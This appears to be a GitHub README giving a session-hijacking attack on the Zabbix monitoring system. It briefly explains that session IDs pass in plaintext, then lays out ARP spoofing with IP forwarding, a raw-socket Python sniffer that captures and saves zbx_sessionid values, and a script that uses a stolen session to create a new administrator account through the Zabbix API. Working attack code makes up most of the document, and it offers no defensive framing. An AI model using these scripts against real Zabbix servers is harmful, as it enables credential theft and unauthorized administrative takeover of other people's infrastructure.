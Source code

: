 ## A bit of theory
The Zabbix server port is 10051 by default and the agent's is 10050.

Traffic between the agent and the server (if you don't configure the encryption of the transmitted data in the agent configuration)
is transmitted in plaintext, in TCP packets with the PSH flag.

Zabbix APIs are web-based and delivered as part of the Web interface and use the JSON-RPC 2.0 protocol.
To use most of Zabbix's features it's enough to send HTTP POST requests to the api_jsonrpc.php file, which is located in a folder with a web interface.

This means that when authorizing a user on the system (for example, when the administrator logs into the Zabbix web interface), a request / response is made in the JSON format.
For each user, zbx_sessionid is generated, and used in queries to the Zabbix server.

The zbx_sessionid transfer process occurs when the user is authorized through the web interface, entering their login and password.
Value of zbx_sessionid «salted» with timestamp which almost excludes its forgery.
However, it is passed to the zbx_sessionid field in the POST request in plain text.

Is it possible to reuse the intercepted zbx_sessionid? Yes, it is, while the user is logged in the system.

## Hijacking
We will use the simplest method - arp spoofing and a custom script to look for the session id.

Let's enable package forwarding:
 ```bash
 sysctl –w net.ipv4.ip_forward=1
 ```
Begin arp spoofing (use for this whateva you want):

<a href="url"><img src="https://image.prntscr.com/image/nhTyrt3vTveE2_SFoeN1GA.png" align="justify"></a>

Start zbx_sessionid catching script:

```python
import socket
import re
s = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, socket.ntohs(0x0800))
print ("trying to catch zbx_sessionid")
k = ''
while True:
    data = s.recvfrom(65565)
    try:
        if "HTTP" in data[0][54:]:
            raw = data[0][54:]
            if "\r\n\r\n" in raw:
                line = raw.split('\r\n\r\n')[0]
                print "[*] Header Captured "
                value = line
                m = re.search("(zbx_sessionid.*)", value)
                if m:
                    str = m.group(0)
                    k = re.split(r'\W+', str)
                    print ("session_id is :")
                    print (k[1])
                    ####Saving zbx_sessionid in file
                    saved_zbxssids = open('zbx_sessionids.txt','a')
                    saved_zbxssids.write('\n')
                    saved_zbxssids.write(k[1]) 
                    saved_zbxssids.write('\n')
                    saved_zbxssids.close()
                    print ("zabbix session id saved in file zbx_sessionids.txt")
                else:
                    pass
            else:
                pass
    except KeyboardInterrupt:
        s.close()
```


## Postexploitation time

It's time to create account with administrator privileges.
The following script will help us:

```python
import json
import requests
from pyzabbix import ZabbixAPI
#api_address="http://192.168.56.102/zabbix/api_jsonrpc.php"
api_address=raw_input("enter correct URL to api_jsonrpc.php, like http://192.168.56.102/zabbix/api_jsonrpc.php"": \n")
zbx_sessionid= raw_input("enter zbx_sessionid: \n")
user= raw_input("enter username: \n")
password= raw_input("enter password: \n")
url = api_address
headers = {'Content-type': 'application/json'}
data = {"jsonrpc": "2.0", "method": "user.create", "params": {
    "alias": user, "passwd": password, "type": "3", "usrgrps": [
        {"usrgrpid": "7"}], },
        "auth": zbx_sessionid,
        "id": 1
        }
answer = requests.post(url, data=json.dumps(data), headers=headers)
print(answer)
response = answer.json()
print(response)
###Using pyzabbix to connect whith created user creds
print ("testing user parameters:")
zapi = ZabbixAPI(api_address)
zapi.login(user, password)
print("Connected to Zabbix API Version %s" % zapi.api_version())
```

<a href="url"><img src="https://image.prntscr.com/image/yayqk9aPQ0C_LsHYF-HNow.png" align="justify" width="480"></a>

Check web interface:

<a href="url"><img src="https://image.prntscr.com/image/_d22yTWMRVuP6PNGCkuZ1Q.png" align="justify" width="640"></a>
